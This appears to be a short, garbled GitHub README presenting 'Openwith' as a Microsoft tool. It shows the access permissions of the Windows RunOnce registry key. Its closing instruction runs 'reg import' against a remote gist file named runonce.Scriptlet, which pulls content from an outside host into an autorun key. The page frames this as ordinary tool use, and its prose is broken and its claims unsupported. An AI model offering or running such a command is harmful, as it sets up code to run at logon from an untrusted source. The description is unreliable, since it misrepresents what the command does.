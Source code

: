 ### Openwith  Microsoft/Tools 
Openwith.exe is a tool for operating the program according to content policies let's go for example
If you want open anything you can put it at Openwith.exe let's go to initiative the experience

```
PS C:\> Get-ACL -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce" | Format-List


Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : BUILTIN\Users Allow  ReadKey
         BUILTIN\Administrators Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         CREATOR OWNER Allow  FullControl
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
         null Allow  ReadKey
Audit  :
Sddl   : null



PS C:\>
```

## Currently, you have to go there and put instructions
C:\> reg import 
https://gist.githubusercontent.com/homjxi0e/66555fedc78af49635b2e5dfea9dd1ae/raw/60b80e88c66fe58d2d906bb24f32925edd2fe025/runonce.Scriptlet

 
